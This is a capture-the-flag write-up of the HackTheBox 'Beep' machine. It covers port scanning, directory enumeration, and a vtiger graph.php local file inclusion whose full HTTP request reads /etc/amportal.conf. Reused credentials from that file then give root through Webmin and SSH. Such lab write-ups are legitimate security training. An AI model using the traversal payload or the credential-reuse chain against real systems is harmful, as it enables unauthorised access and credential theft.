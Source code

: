 # Beep | HackTheBox

### 1. Scan
```bash
─[us-dedivip-1]─[10.10.14.110]─[htb-jib1337@htb-ah8tqg4ksh]─[~]
└──╼ [★]$ nmap -A -p- -T4 10.129.1.226
Starting Nmap 7.80 ( https://nmap.org ) at 2020-12-14 06:56 UTC
Nmap scan report for 10.129.1.226
Host is up (0.22s latency).
Not shown: 65519 closed ports
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
|_  2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
25/tcp    open  smtp?
|_smtp-commands: Couldn't establish connection on port 25
80/tcp    open  http       Apache httpd 2.2.3
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Did not follow redirect to https://10.129.1.226/
|_https-redirect: ERROR: Script execution failed (use -d to debug)
110/tcp   open  pop3?
111/tcp   open  rpcbind    2 (RPC #100000)
143/tcp   open  imap?
443/tcp   open  ssl/https?
|_ssl-date: 2020-12-14T08:18:16+00:00; +1h03m38s from scanner time.
942/tcp   open  status     1 (RPC #100024)
993/tcp   open  imaps?
995/tcp   open  pop3s?
3306/tcp  open  mysql?
|_mysql-info: ERROR: Script execution failed (use -d to debug)
4190/tcp  open  sieve?
4445/tcp  open  upnotifyp?
4559/tcp  open  hylafax?
5038/tcp  open  asterisk   Asterisk Call Manager 1.1
10000/tcp open  http       MiniServ 1.570 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: Host: 127.0.0.1

Host script results:
|_clock-skew: 1h03m37s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1309.35 seconds
```
The machine is running SSH, an Apache server running SSL (80/443), an Asterisk Call Manager service on port 5038 , another HTTP service on port 10000 and then some other services which nmap attempted to identify.

### 2. Enumeration
Starting with the main web server on 80/443, the main page is a login from to Elastix, which is a communications server software to enable stuff like IP PBX, email, IM and fax. Each function is controlled by another service. No default creds work for the login.  
I use gobuster to search for other directories from the root:
```bash
─[us-dedivip-1]─[10.10.14.110]─[htb-jib1337@htb-o7n31ucdvi]─[~]
└──╼ [★]$ gobuster dir -u https://10.129.1.226 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 30 -k===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            https://10.129.1.226
[+] Threads:        30
[+] Wordlist:       /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/12/14 10:46:40 Starting gobuster
===============================================================
/images (Status: 301)
/help (Status: 301)
/themes (Status: 301)
/modules (Status: 301)
/mail (Status: 301)
/admin (Status: 301)
/static (Status: 301)
/lang (Status: 301)
/var (Status: 301)
/panel (Status: 301)
/libs (Status: 301)
/recordings (Status: 301)
/configs (Status: 301)
/vtigercrm (Status: 301)
===============================================================
2020/12/14 12:32:27 Finished
===============================================================
```
By trying to go to /admin, I get prompted for more credentials in a popup window. I try more default creds and get an "unauthorized" message, but I also get the version of the application the admin panel is for: `FreePBX 2.8.14`.  
  
Additionally I look into the other discorvered folders and find the following:
- /mail: roundcube webmail
- /lang: has different language text for Elastix, this does indicate it is Elastix 1.0, but no way to tell how accurate that is. Might be just the language files dont change between versions.
- /panel: "Flash Operator Panel" for Asterisk, appears to need Shockwave Flash (maybe this really is 1.0)- /recordings: Another login form, this time it's just the non-admin FreePBX 2.5 form.  
  
While I'm at it, port 10000 is the Webmin login page. Webmin is a system configuration tool for Linux, allowing administrators to manage the server via the web. I can't find any version information.
  

### 3. Read some files
After a few tests I try exploiting a local file inclusion vulnerability in graph.php, which is part of a CRM called vtiger used for Elastix. I navigated to https://10.129.1.226/vtigercrm/ and found another login page for it. I continue with the exploit (detailed as part of an exploit script at https://www.exploit-db.com/exploits/37637), browsing to graph.php and getting LFI through the current_language parameter. Using a proxy made this easy to exploit and tweak. Here is the request that worked:
```bash
GET /vtigercrm/graph.php?current_language=../../../../../../../../etc/amportal.conf%00&module=Accounts&action HTTP/1.1
Host: 10.129.1.226
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Cookie: elastixSession=h8j1m5gu2rtj86r811uggin792; testing=1; PHPSESSID=jkdbb0qf8h099h6b94ta74nf36; ARI=qku5175lnonksij0jggibbffn5
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
Cache-Control: max-age=0
```
Retrieving the amportal.conf file (as done in the proof of concept) is great because it gives me some credentials including:
- Asterisk SQL: `asteriskuser:jEhdIekWmdjE`
- Asterisk portal: `admin:jEhdIekWmdjE`
- Flash operator panel password: `jEhdIekWmdjE`
- ARI admin password: `jEhdIekWmdjE`  
It is clear there is heavy credential use on the machine. Knowing this, and knowing the webmin portal allows access to an admin user with the username root (by default), I can attempt to use this password to log in.

### 4. Get a shell
With the credentials `root:jEhdIekWmdjE` I can log into the webmin panel, which ends up giving me root access to the machine. I can do everything, including use a web command shell where I can verify I am root. Additionally I can SSH into the machine, after specifying a supported algorithm.
```bash
─[us-dedivip-1]─[10.10.14.110]─[htb-jib1337@htb-o7n31ucdvi]─[~]
└──╼ [★]$ ssh root@10.129.1.226
Unable to negotiate with 10.129.1.226 port 22: no matching key exchange method found. Their offer: diffie-hellman-group-exchange-sha1,diffie-hellman-group14-sha1,diffie-hellman-group1-sha1

─[us-dedivip-1]─[10.10.14.110]─[htb-jib1337@htb-o7n31ucdvi]─[~]
└──╼ [★]$ ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 root@10.129.1.226
The authenticity of host '10.129.1.226 (10.129.1.226)' can't be established.
RSA key fingerprint is SHA256:Ip2MswIVDX1AIEPoLiHsMFfdg1pEJ0XXD5nFEjki/hI.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.1.226' (RSA) to the list of known hosts.
root@10.129.1.226's password: 
Last login: Tue Sep 29 12:10:12 2020

Welcome to Elastix 
----------------------------------------------------

To access your Elastix System, using a separate workstation (PC/MAC/Linux)
Open the Internet Browser using the following URL:
http://10.129.1.226

[root@beep ~]# whoami
root
```
